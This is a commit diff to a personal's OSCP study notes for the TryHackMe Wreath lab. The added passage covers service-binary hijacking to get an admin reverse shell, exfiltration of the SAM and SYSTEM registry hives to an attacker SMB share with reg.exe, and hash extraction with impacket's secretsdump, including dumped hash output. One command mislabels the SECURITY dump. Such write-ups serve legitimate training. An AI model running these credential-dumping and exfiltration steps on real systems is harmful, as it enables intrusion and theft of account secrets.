

Before and after one commit to Bruno-Macedo/hacklab, a Markdown page: Notes/OSCP_Wreath_THM.md, the part around the change printed below. Shown: that part at 94% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
wreath

````diff
--- a/Notes/OSCP_Wreath_THM.md
+++ b/Notes/OSCP_Wreath_THM.md
@@ -674,18 +679,55 @@ powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list
 The screenshot below shows that we have full access to the directory:
 ![Permission on the directory where the service is running](image-20.png)
 
-To escale privileges, we uploaded a C# executable in the folder where the service *SystemExplorerHelpService* is placed. This executable will create a process to contact the attacking machine creating a reverse shell as admin, since this service starts with administrative privileges.
+To escale privileges, we uploaded a C# executable in the folder where the service *SystemExplorerHelpService* is located and changed its name to *System.exe*. This executable will create a process to contact the attacking machine creating a reverse shell with administrative privileges, since this service starts with administrative privileges.
 
+To stop and start this service, we send the following commands:
+```
+# We first stop the original service
+sc stop SystemExplorerHelpService
+
+# We start it again, so our executable can be launched
+sc start SystemExplorerHelpService
+```
 ![Windows shell with administrative privileges](image-21.png)
 
+#### Exfiltratation
+Since the friend allowed to try anything we want, we decided to prove our success by exfiltrating sensitive information from his PC. We extracted in this engagement the files where the hash values are stored:
+```
+# Dumping the SAM file
+reg.exe save HKLM\SAM \\ATTACKING_IP\share\sam.bak
+reg.exe save HKLM\SAM \\10.50.106.78\share\sam.bak
 
-## Maintaining Access
+# Dumping the SYSTEM file
+reg.exe save HKLM\SYSTEM \\ATTACKING_IP\share\system.bak
+reg.exe save HKLM\SYSTEM \\10.50.106.78\share\system.bak
 
-The steps described in the previous sessions allowed us to maintain access to the compromised services. This result can also be acquired with tools of Command of Control (i.e. empire).
+# Dumping the SECURITY file
+reg.exe save HKLM\SAM \\10.50.106.78\share\system.bak
 
-Since we are dealing with productive environment, the possibility and the methods were just described in this report. The actual executation were not performed to avoid any possobile damage on these systems.
+```
+
+With the file in our attacking machine, we used the tool *secretsdump.py* from the *impacket* repositoriy to crack those hashes:
+```
+python3 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
+```
+
+The extracked hashes are available below:
+```
+Impacket v0.12.0.dev1+20230914.31713.6a3ecf7e - Copyright 2023 Fortra
+
+[*] Target system bootKey: 0xfce6f31c003e4157e8cb1bc59f4720e6
+[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
+Administrator:500:aad3b435b51404eeaad3b435b51404ee:a05c3c807ceeb48c47252568da284cd2:::
+Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
+DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
+WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:06e57bdd6824566d79f127fa0de844e2:::
+Thomas:1000:aad3b435b51404eeaad3b435b51404ee:02d90eda8f6b6b06c32d5f207831101f:::
+[*] Cleaning up...
+```
 
 ## House Cleaning
-
 Once the engagement was concluded, we removed all applications and configurations we applied in the compromised systems.
 Since all configuration and tools were described in this document, the process of removing followed the narrative path.
+
+# Conclusion
````
Also changed, not shown: other parts of Notes/OSCP_Wreath_THM.md (+8 -3 lines), Notes/image-22.png (added).
